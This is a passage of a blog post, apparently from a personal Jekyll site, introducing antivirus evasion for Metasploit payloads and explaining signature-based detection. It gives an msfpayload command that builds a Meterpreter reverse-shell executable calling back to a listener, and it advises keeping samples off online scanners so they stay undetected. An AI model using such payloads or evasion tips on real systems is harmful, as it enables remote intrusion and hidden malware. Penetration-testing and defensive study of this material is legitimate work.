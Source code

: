 ```yaml
---
layout: post
title: "Notes on Anti-virus Evasion"
excerpt: "反病毒软件调戏笔记: 如何使用metasploit项目的shellcode且不被反恶意软件查出"
category: exploit
tags: [anti-virus]
disqus: true
---
```



Ok, This article is about why and how can you bypass antivirus softwares when you are using metasploit payloads. First of all, I'd like to emphasize the following things:

1. Don't be stupid. Do anything at your own risk.
2. There is nothing too hard to learn. If you find something really hard to understand. [Try harder](http://www.offensive-security.com/when-things-get-tough/), you may lack of some necessary requirements, please refer to References section yourself. 
3. There are lots of Unix tools to use for linux, so I use gentoo linux as my experiment environment. You can use anything you like.
4. I'm not a native English speaker, but I hope this article is interesting and useful to many non-Chinese speakers. So I write every word in a language I'm not familiar. The article may full with grammer mistakes, but you can understand what I'm saying is enough. Happy hacking.
5. Last but not least, Never upload your samples to a online scanner website like virustotal or so if you are a penetration tester and want to use your payload later. Check it on your local machine. you can alse try [novirusthanks](http://vscan.novirusthanks.org/) with `Do not distribute the sample` marked.

## Theory: How Antivirus software works

### Signature-based Detection

Why can you bypass AV detection? There won't much way for AV vendors to decide whether a software is a normal program or a malware. They have 3 main ways, the most popular method it use to scan malwares is based on signature. AV engines scan the whole program to find something in accordance with the kown 'bad strings' in malwares. Once 'bad strings' being found, the program will be flagged as a malware.

You will soon see it is so. Lets take [Avast!](http://www.avast.com/) free edition as example. I do all my test on my linux machine, but you can do anything as you like.

First, Let's use a `windows/meterpreter/reverse_tcp` payload from [Metasploit](http://metasploit.com/). It will provide a reverse meterpreter shell to a remote computer for the hackers.

    ~/metasploit-framework/msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.56.102 X > payload.exe

Start a listenner and assert it really works
    
    wine payload.exe

However, Avast! will find its a malware! Moreover, even when you open the file explorer, the payload will be found before any scan.


[^1]: Example comes from [http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/](http://www.scriptjunkie.us/2011/04/why-encoding-does-not-matter-and-how-metasploit-generates-exes/)
[^2]: Thanks to the article on [Pentest Geek](http://www.pentestgeek.com/2012/01/25/using-metasm-to-avoid-antivirus-detection-ghost-writing-asm/#comment-513), however, nasm may a better choice. for there won't be piles of `db`s
